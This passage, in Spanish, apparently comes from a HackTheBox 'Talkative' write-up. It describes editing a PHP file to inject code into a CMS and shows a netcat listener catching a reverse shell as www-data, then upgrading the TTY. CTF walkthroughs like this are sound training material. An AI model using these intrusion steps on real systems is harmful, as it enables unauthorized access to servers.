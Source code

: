 <img src="/writeups/assets/img/Talkative-htb/4.png" alt="">

Retoco un archivo en PHP para inyectar código

<img src="/writeups/assets/img/Talkative-htb/5.png" alt="">

Tramito una petición a ese archivo y gano acceso a otro contenedor

```null
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.11.155] 44658
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@0a98dac47868:/var/www/talkative.htb/bolt/public$ script /dev/null -c bash
<talkative.htb/bolt/public$ script /dev/null -c bash      
Script started, output log file is '/dev/null'.
www-data@0a98dac47868:/var/www/talkative.htb/bolt/public$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
```
